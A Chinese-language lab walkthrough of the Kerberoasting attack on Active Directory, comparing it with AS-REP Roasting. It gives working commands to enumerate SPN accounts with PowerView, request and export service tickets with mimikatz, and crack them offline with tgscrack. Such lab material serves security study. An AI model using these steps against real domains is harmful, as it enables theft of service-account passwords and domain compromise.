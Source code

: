 # Kerberoasting 离线爆破攻击

当域用户请求某个域内服务后，kdc 通常会返回一个加密的 st 服务票据，此 st 服务票据被服务 hash 加密，当我们将使用密码字典派生的多个 hash 值来尝试解密 st 服务票据，如果能够揭秘成功，则说明字典中存在目标服务账号的密码。

### Kerberoasting 对比 AS-REP Roasting

- Kerberoasting 利用后获得服务账户密码，AS-REP Roasting 利用后获得发起请求的域用户的密码。
- Kerberoasting 使用字典爆破 st 服务票据，AS-REP Roasting 使用字典爆破 Logon Session Key。
- Kerberoasting 需要攻击者具有请求 st 的凭据（某个域用户即可），AS-REP Roasting 需要攻击者枚举出域中 “不要求 kerberos 预身份验证” 的用户。

### 环境搭建

为管理员 administrator 注册一个 spn，目的是为了 administrator 映射为某个服务的服务账户。

```
# WIN-0v0GAORDC17 是域控机器账户
setspn -S MySQL/WIN-0v0GAORDC17:3306/MySQL administrator
```

![image-20241224104537176](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241224104537176.png)

### 漏洞利用

1. 查询域内注册 spn 的用户。工具：**PowerView.ps1**，项目地址：https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1。

```
Import-Module .\PowerView.ps1 
Get-NetUser -SPN
```

![image-20241224104508750](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241224104508750.png)

2. 使用某个域用户凭据请求这个 spn 对应服务的 st 服务票据。工具：**mimikatz。**

```
kerberos::ask /target:MySQL/WIN-0v0GAORDC17:3306/MySQL

# 这里我用来请求 st 的凭据时 administrator管理员，其实其他域用户凭据也可以，只要能请求到 st 就可以。
```

![image-20241224104725968](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241224104725968.png)

3. 导出请求到的 st 服务票据。工具：**mimikatz。**

```
kerberos::list /export
```

![image-20241224104833771](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241224104833771.png)

4. 使用字典进行离线爆破。工具：**tgscrack**，项目地址：https://github.com/leechristensen/tgscrack。

```
# 先使用 python 脚本提取出 st 服务票据的加密部分，并导出到 /tmp/myhash.txt 路径下
python2 extractServiceTicketParts.py ticket.kirbi > /tmp/myhash.txt

# 再使用 tgscrack.go 进行离线爆破
go run tgscrack.go -hashfile /tmp/myhash.txt -wordlist /tmp/password.txt
```

![image-20241224105031641](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241224105031641.png)